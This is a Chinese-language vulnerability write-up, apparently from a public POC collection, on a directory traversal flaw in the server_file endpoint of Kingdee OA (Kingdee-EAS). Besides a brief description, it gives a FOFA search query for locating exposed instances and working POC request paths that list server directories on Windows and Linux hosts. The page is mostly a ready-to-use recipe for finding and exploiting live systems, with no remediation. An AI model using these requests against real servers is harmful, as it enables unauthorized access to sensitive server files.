 # 金蝶OA server_file 目录遍历漏洞

## 漏洞描述

金蝶OA server_file 存在目录遍历漏洞，攻击者通过目录遍历可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>金蝶OA</a-checkbox></br>

## FOFA

<a-checkbox checked>app="Kingdee-EAS"</a-checkbox></br>

## 漏洞复现

登录界面为



![img](../../../.vuepress/public/img/image-20210603132948792.png)

漏洞POC

```plain
/appmonitor/protected/selector/server_file/files?folder=/&suffix=
Windows服务器

appmonitor/protected/selector/server_file/files?folder=C://&suffix=

Linux服务器
appmonitor/protected/selector/server_file/files?folder=/&suffix=
```



![img](../../../.vuepress/public/img/image-20210603133136331.png)
